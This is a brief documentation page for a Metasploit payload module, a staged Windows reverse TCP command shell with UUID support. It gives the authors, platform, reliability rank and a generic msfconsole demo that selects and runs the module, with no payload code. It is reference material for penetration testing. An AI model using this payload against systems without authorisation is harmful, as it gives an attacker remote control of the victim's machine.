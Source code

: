 ## Windows Command Shell, Reverse TCP Stager with UUID Support

Spawn a piped command shell (staged). Connect back to the 
attacker with UUID Support


## Module Name
payload/windows/shell/reverse_tcp_uuid

## Authors
* spoonm
* sf
* hdm
* OJ Reeves





## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/shell/reverse_tcp_uuid
msf payload(reverse_tcp_uuid) > show targets
   ... a list of targets ...
msf payload(reverse_tcp_uuid) > set TARGET <target-id>
msf payload(reverse_tcp_uuid) > show options
   ... show and set options ...
msf payload(reverse_tcp_uuid) > run
```
    
    